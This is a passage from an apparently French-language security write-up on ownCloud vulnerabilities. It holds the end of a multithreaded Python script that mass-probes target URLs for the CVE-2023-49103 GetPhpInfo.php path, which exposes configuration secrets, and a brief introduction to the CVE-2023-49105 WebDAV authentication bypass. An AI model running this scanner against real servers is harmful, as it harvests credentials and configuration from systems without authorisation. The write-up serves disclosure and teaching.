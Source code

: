 ```py
    with open(file_path, 'r') as file:
        for line in file:
            base_url = line.strip()
            # Append both URL variants for each base URL
            urls.append(base_url + "/owncloud/apps/graphapi/vendor/microsoft/microsoft-graph/tests/GetPhpInfo.php/.css")
            urls.append(base_url + "/apps/graphapi/vendor/microsoft/microsoft-graph/tests/GetPhpInfo.php/.css")

    url_queue = queue.Queue()
    num_workers = min(100, len(urls))  # Adjust based on your system's capabilities

    with alive_bar(len(urls), bar='smooth', enrich_print=False) as bar:
        with ThreadPoolExecutor(max_workers=num_workers) as executor:
            # Start worker threads
            for _ in range(num_workers):
                executor.submit(process_urls, url_queue, output_file, bar)

            # Read URLs and add them to the queue
            for url in urls:
                url_queue.put(url)

            # Add sentinel values to indicate completion
            for _ in range(num_workers):
                url_queue.put(None)

            url_queue.join()  # Wait for all tasks to be completed


if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Process some URLs.')
    parser.add_argument('-t', '--target', required=True, help='Input file with URLs')
    parser.add_argument('-o', '--output', required=True, help='Output file for valid URLs')

    args = parser.parse_args()

    process_file(args.target, args.output)
```

### Schéma

Ci-dessous un schéma récapitulatif de l'attaque :

![Alt text](/images/pwncloud/CVE-2023-49103.gif)

## CVE-2023-49105

![CVE-2023-49105](/images/pwncloud/2023-12-11_16-11.png)

Quelques rappels concernant la vulnérabilité CVE-2023-49105 :
   - Le score CVSS est de 9.8 😨.
   - Il est possible de lire, écrire et supprimer des fichiers en contournant l'authentification de l'Api WebDAV.
